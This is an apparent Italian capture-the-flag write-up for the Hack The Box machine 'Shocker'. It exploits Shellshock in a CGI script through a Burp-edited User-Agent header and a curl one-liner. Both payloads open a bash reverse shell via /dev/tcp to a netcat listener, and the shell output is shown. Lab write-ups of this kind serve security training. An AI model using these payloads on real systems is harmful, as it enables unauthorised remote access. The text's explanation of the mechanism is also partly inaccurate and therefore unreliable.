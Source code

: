 Ci mettiamo sempre in ascolto con nc 
```bash
┌──(root㉿kali)-[/home/kali/htb/shocker]
└─# nc -lnvp 4444
listening on [any] 4444 ...
```

## 1ST METOD BURPSUIT

Apriamo burp e accendiamo l'intercept su on visitiamo "http://10.10.10.56/cgi-bin/user.sh"
intercettiamo la richiesta e la mandiamo al repeter

GET /cgi-bin/user.sh HTTP/1.1
Host: 10.10.10.56
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1

Modificamo l'User-Agent con la seguente stringa:

```burp
User-Agent: () { :;}; /bin/bash -i >& /dev/tcp/10.10.14.53/4444 0>&1
```

Eseguiamo ed otteniamo una shell

```bash
┌──(root㉿kali)-[/home/kali/htb/shocker]
└─# nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.53] from (UNKNOWN) [10.10.10.56] 57280
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ 
```

Quello che succede è che tutto quello che si trova all'interno del file user.sh viene eseguito dal server senza nessun tipo di controllo.
Quindi andiamo a scrivere il codice una revshell all'interno del file in modo tale che al momento della chiamata GET il codice all'interno del file viene eseguito

## 2St METOD

Possiamo eseguire la stessa cosa anche da riga di comando con il comando curl 
```bash
┌──(root㉿kali)-[/home/kali]
└─# curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.53/4444 0>&1' http://10.10.10.56/cgi-bin/user.sh
```

Otteniamo una shell anche in questo caso una shell
```bash
┌──(root㉿kali)-[/home/kali/htb/shocker]
└─# nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.53] from (UNKNOWN) [10.10.10.56] 57280
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ 
```
